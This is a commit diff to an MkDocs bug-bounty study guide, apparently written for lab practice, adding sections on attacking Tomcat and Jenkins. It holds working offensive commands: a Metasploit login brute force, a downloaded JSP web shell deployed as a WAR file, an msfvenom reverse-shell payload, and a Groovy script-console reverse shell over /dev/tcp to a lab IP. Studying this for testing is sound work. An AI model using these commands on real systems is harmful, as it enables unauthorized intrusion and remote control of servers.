

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/attacking-common-applications.md, in a window 1280 px wide and 1400 px high, scrolled down 14197 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 14699 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
add jenkins section of attacking common applications page

````diff
--- a/docs/bug-bounty-guide/attacking-common-applications.md
+++ b/docs/bug-bounty-guide/attacking-common-applications.md
@@ -450,7 +450,7 @@
     └── classes                     # Classes might contain important business logic as well as sensitive information
         └── AdminServlet.class
 ```
-- Example web.xml file:
+- Example web.xml file (important to check to leverage LFI):
 ```xml
 <?xml version="1.0" encoding="ISO-8859-1"?>
 
@@ -468,3 +468,97 @@
   </servlet-mapping>
 </web-app>
 ```
+- ``` tomcat-users.xml``` has valuable user information
+
+### Enumeration
+
+- Attempt to locate the /manager and /host-manager pages:
+```bash
+gobuster dir -u http://web01.inlanefreight.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
+```
+- Try to log in with weak creds (tomcat:tomcat, admin:admin) or bruteforce
+
+### Attacking Tomcat
+
+#### Tomcat Manager - Login Brute Force
+
+- Try bruteforcing the Tomcat manager page using Metasploit:
+```bash
+msfconsole
+use auxiliary/scanner/http/tomcat_mgr_login
+set VHOST web01.inlanefreight.local
+set RPORT 8180
+set stop_on_success true
+set rhosts 10.129.128.204
+show options
+run
+```
+
+#### Tomcat Manager - WAR File Upload
+
+- Available at /manager/html by default
+- Users assigned the manager-gui role are allowed to access
+- Login to manager page (```http://web01.inlanefreight.local:8180/manager/html```) once valid credentials obtained
+- Download JSP web shell and zip it as a .war file
+```bash
+wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
+zip -r backup.war cmd.jsp
+```
+- In the GUI click on ```Browse``` to select the .war file and then click on ```Deploy```
+- Once uploaded the ```/backup``` application should appear in the applications table
+- Confirm webshell execution ```curl http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=id```
+- Undeploy backups application once done
+
+- Can also create a reverse shell using msfvenom
+```bash
+msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.251 LPORT=4443 -f war > backup.war
+```
+- Start a Netcat listener and click on /backup to execute the shell.
+```bash
+nc -lnvp 4443
+```
+- Metaploit module ```multi/http/tomcat_mgr_upload``` can automate this process
+
+## [Jenkins](https://www.jenkins.io/)
+
+### Discovery & Enumeration
+
+- 0pen-source automation server written in Java that helps developers build and test their software projects continuously
+- Default runs on port 8080 with slaves on 5000
+- Default login page reveals we are dealing with Jenkins
+- Default credentials admin:admin
+
+### Attacking Jenkins
+
+#### Script Console
+
+- Run arbitrary Groovy scripts within the Jenkins controller runtime
+- Found at ```http://jenkins.inlanefreight.local:8000/script```
+
+**Linux Hosts**
+- Example groovy script:
+```groovy
+def cmd = 'id'
+def sout = new StringBuffer(), serr = new StringBuffer()
+def proc = cmd.execute()
+proc.consumeProcessOutput(sout, serr)
+proc.waitForOrKill(1000)
+println sout
+```
+- Reverse shell script
+```groovy
+r = Runtime.getRuntime()
+p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
+p.waitFor()
+```
+- Can use metasploit to get reverse shell:
+```bash
+use exploit/multi/http/jenkins_script_console
+set TARGET < target-id >
+exploit
+```
+- Start listener and upgrade to interactive shell:
+```bash
+nc -lvnp 8443
+/bin/bash -i
+```
````
